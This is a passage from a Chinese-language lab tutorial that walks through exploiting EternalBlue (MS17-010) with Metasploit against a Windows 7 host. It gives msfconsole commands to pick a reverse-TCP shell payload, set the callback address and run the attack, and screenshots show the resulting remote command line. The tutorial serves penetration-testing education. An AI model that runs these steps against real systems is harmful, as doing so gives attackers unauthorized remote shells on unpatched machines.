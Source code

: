 **（10）查看exploit target 目标类型**

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320999.webp)

在这里插入图片描述

可以看到这个模块只有一个 target，所以默认就选择这个目标系统，不需要手动设置。

**（11）找一个 payload**，为了获取 shell 远程连接权限后，进行远程执行命令

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > search windows/x64/shell type:payload
```

> 注：payload 又称为攻击载荷，主要是用来建立目标机与攻击机稳定连接的，可返回 shell，也可以进行程序注入等。

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320785.webp)

**（12）设置使用的payload，查看payload所需要的参数**

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload
 windows/x64/shell/reverse_tcp                                                    
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320824.webp)

**（13）设置payload的反弹地址**

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.2.16
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320849.png)

**（14）检查参数有无问题，** 没有问题直接run

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320891.webp)

**（15）攻击成功，显示出windows命令行**

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320888.webp)

注意：若停在上图WIN字符区域，不是没有攻击成功，仅需按下回车即可

### 3.测试攻击是否成功

**（1）在kali端尝试查看当前Windows 7用户**

![img](https://pic1.zhimg.com/80/v2-0978d163a10da7c256775bf1aa5a64fc_720w.webp)

发现显示乱码，解决办法在命令行输入`chcp 65001`即可，再次查看

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320998.webp)
